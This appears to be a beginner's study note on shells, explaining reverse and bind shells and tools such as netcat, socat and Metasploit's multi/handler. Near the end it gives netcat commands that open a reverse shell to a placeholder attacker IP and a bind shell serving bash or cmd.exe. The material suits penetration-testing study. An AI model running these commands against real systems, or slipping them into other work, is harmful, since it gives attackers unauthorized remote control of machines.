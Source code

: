 A shell is what we use when interfacing with a Command Line environment (CLI).

Examples of shells;
- bash
- sh
- cmd
- powershell
- fish
- zsh

A __reverse shell__ is a Command line access of a server that is send to the attacker. In this, we force the targetto connect back to our machine. They act as a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell.

A __bind shell__ is a port on the server in which we can connect to in order to execute further commands. In this, the code executed on the target is used to start a listener attached to a shell directly on the target which would then be opened up to the internet and we can connect to it and obtain RCE. Its con

There are a variety of tools which can be used to recieve sehlls and send bind shells.
- Netcat - This is the traditional Swiss Army Knife of networking. Netcat shells are very unstable (easy to lose) by default, but can be improved easily.
- Socat - Socat is like netcat on steroids. It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells out of the box. However, there are some cons of socat:
	- the syntax is more difficult.
	- Socat is not installed on linux distros by default.
- Metasploit[multi/handler] - This metasploit module is used to recieve rev shells. It is also the only way to interact with a meterpreter shell and is the easiest way to handle staged payloads.
- Msfvenom -It is used to generated payloads independently from metasploit framework.

Linux comes with a  couple of pre-installed web-shells located at `/usr/share/webshells`


Example of reverse shell script:

```
//on attacker machine
sudo nc -nlvp 443

// on target machine
nc ATACKER_IP PORT -e /bin/bash
```


Example of a bind shell:

 First, we start a listener on the target -- this time we're also telling it to execute `cmd.exe`. Then, with the listener up and running, we connect from our own machine to the newly opened port.

```
// on target machine
nc -nvlp PORT -e /bin/bash

nc -nvlp PORT -e "cmd.exe"

// on attacker machine
nc MACHINE_IP PORT
```

